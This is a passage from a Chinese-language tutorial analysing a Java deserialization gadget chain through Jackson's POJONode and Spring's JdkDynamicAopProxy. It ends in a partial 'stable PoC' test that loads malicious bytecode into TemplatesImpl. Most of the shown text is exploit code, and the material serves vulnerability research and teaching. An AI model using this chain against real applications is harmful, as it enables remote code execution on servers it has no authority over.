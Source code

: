     ![image-20241028185330403](Serialization_Jackson/image-20241028185330403.png)
    可以看到这个方法是获取一个 `list`。获取的来源就是给定的方法中的 ` org.aopalliance.intercept.MethodInterceptor` 对象，但是这个对象在我们实际的调用中并没有，因此这个 `if` 不用管他，其会自动绕过。

### 5.5 稳定 PoC

1. 将上一点所讲内容实现，得到的 PoC 如下：
    ```java
    @Test
    public void testJacksonChain_stable() throws Exception {
        // 1. 构造 sink
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.getCtClass("com.endlessshw.jacksonrange.util.Evil");
        byte[] bytes = ctClass.toBytecode();
        TemplatesImpl templates = new TemplatesImpl();
        // 要求 1 - 注入恶意字节码
        Field bytecodesField = templates.getClass().getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        bytecodesField.set(templates, new byte[][]{bytes});
        // 要求 2 - 保证 _name 不为 null
        Field nameField = templates.getClass().getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "EndlessShw");
    
        // 2. 移除掉 BaseJsonNode 的 writeReplace 方法，防止序列化失败
        CtClass baseJNctClass = ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = baseJNctClass.getDeclaredMethod("writeReplace");
        baseJNctClass.removeMethod(writeReplace);
        baseJNctClass.toClass();
    
        // 3. 构造 chain
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(templates);
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Templates.class}, handler);
        POJONode jsonNodes = new POJONode(proxy);
    